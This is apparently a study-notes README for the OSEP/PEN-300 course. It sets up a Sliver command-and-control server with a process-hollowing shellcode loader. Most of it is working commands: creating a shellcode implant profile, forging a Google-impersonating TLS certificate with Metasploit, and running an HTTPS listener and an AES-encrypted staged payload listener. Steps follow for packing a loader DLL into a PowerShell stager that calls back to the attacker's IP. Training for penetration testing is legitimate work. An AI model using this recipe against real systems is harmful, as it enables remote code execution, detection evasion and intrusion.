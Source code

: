 # Sliver Advanced Process Hollowing shellcode runner Setup

## References
All content for Sliver shell code runner from https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI
In addition, the setup was guided from https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8

## The Sliver Server setup process
```bash
# Create profile local64 and point to port 443
sliver > profiles new --http 192.168.45.227:443 --format shellcode local64

# Setup certs with metasploit
┌──(kali㉿kali)-[~]
└─$ msfconsole -q -x "use auxiliary/gather/impersonate_ssl; set RHOST www.google.com; run; exit"
# Then save the .crt and .key files into an appropriate folder for easy reference

# Setup main listener with google.crt / key generated with metasploit
sliver > https -L 192.168.45.227 -l 443 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key

# Setup the main stager with unzip key / decryption keys 
sliver > stage-listener --url https://192.168.45.227:8064 --profile local64 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

# References
ToolLibrary/Sliver-ProcessHollowing-Loader

# Sliver-ProcessHollowing-Loader Setup
```bash
# Step 1 - Compile the .dll from the ToolLibrary/Sliver-ProcessHollowing-Loader or grab precompiled from Compiled/Sliver/SliverLoader.dll 
# Step 2 - Use the powershellEncoder.ps1 to output to SliverLoader_Base64.txt
# Step 3 - Copy and paste the contents of SliverLoader_Base64.txt into the sliver.txt $encodeStr variable
# Step 4 - Modify the runner.txt (or ps1) to reflect the kali (attacker) tun0 IP
# Step 5 - Modify the sliver.txt (or ps1) on line 7 stage-listener http address to reflect the kali (attacker) tun0 IP
```
